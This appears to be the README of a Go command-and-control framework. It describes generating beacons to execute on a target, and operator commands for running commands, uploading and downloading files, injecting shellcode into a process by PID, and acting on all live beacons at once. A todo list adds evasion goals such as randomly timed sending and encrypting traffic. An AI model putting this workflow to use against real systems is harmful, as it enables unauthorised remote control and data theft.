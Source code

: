 
https://user-images.githubusercontent.com/7650862/122788869-4b9e4600-d2a6-11eb-98c7-b33f8b2706bc.mp4

<br />

![web image](https://i.imgur.com/GClimue.png)


Usage:

After cloning the repo run server.go
Run 'create LHOST 8001' to generate a beacon. This will be placed in the out directory.
Execute the beacon on the target.

Inside the command server you can reference beacons using either their list id or their unique id.
For example if the output of 'list' is '[0] LuTNluGL@10.255.52.1 last seen 2021-05-23 21:07:17.208101927 -0400 EDT m=+179.667762638', you could refer to this beacon by LuTNluGL or 0.

Execute commands or download files from beacons:
exec BEACON cmd
download BEACON file

After selecting an active beacon with user shellcode may be injected into another process. List processes with plist and provide the shellcode command with the path to the data as well as the PID.

However if you select a beacon with the use command you can exempt the beacon identification.
Beacon identification can be replaced with * to schedule the operation for all live beacons.

Downloaded files will be saved to downloads/BEACON-IP/BEACON-ID/

This project is in development with limited functionality.

Commands:

```
listeners 
httplistener <iface> <hostname> <port>
exec <beacon id OR index> <command>
upload <beacon id OR index> <local file> OR <local file>
use <beacon id OR index>
script <beacon id OR index> <local file path> <remote executor path>
shellcode <path to shellcode> <PID>
list 
plist 
create <listener>
download <beacon id OR index> <remote file> OR <remote file>
migrate <PID> // nonworking
help <command>
```

Todo list:
- Exec:
    - HTTP: finished
- Upload
    - HTTP: finished
- Download: 
    - HTTP: finished
- Proxychaining beacons OR P2P beacons
- Automatic proxychains configuration depending on beacon route
- Add handling of multiple clients with random unique IDs: FINISHED
- RSA encrypt data instead of base 64 encode
- Randomly timed sending
- Web interface - WIP
